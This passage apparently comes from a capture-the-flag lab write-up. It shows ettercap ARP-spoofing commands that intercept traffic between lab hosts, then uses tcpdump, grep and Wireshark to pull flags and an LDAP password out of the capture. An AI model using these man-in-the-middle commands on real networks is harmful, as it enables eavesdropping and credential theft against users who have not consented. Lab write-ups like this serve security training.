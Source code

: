 We can check the traffic between the different targets 

`sudo ettercap -T -i tap0 -M arp /10.11.12.6/10.11.12.48/ -w file.pcap` (-T for text mode, -i select the interface, -M set the mode, then targets (like between which or towards which it is going), -w for output)

or another one can be used as `sudo ettercap -Tq -i tap0 -M arp:remote /10.11.12.48//` (this will however show only one flag)

Then after some time you got the capture

Use `tcpdump -r file.pcap -A > file.txt` (-A for print each packet in ASCII, -r probably for reading)

Then you can analyze the file with `cat file.txt | grep FLAG` and you should get at least one FLAG (FLAG-6986) which is also a password for LDAP (and also some other possible flags, like for FTP on another server, and another flag for another server)

![Flags present on the network](image-66.png)

### QUESTION 3

From previous question lets open the wireshark, open the .pcap file we got, then filter for `ldap` and then we can get some information with a user and its password being the flag.
